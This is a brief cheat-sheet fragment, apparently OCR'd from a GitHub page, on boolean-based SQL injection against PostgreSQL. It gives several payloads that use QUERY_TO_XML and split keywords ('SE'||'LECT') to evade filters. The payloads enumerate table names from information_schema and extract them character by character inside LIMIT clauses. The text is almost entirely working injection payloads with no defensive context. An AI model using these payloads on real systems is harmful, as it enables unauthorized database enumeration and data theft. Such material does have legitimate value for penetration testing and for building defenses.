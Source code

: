 

## boolean based

- with select and `;` filter in limit or order by clause .  
- `QUERY_TO_XML` can be used to craft sql queries 
```sql
SELECT 'a1'  , 'a2' limit CASE when QUERY_TO_XML('SE'||'LECT table_name a FROM information_schema.tables WHERE (table_schema=''public'')', true, true, '') IS NOT NULL THEN 1 ELSE 0 END;



SELECT query_to_xml('SE'||'LECT table_name a FROM information_schema.tables WHERE (table_schema=''public'')',true,true,'') ;

SELECT substring(replace(''||query_to_xml('SE'||'LECT table_name a FROM information_schema.tables WHERE (table_schema=''public'')',true,true,''),'row',''), 3,1) ;

SELECT substring(replace(replace('' || query_to_xml('SE'||'LECT table_name a FROM information_schema.tables WHERE (table_schema=''public'')', true, true, ''),'row',''),'xmlns',''),3,1);

```
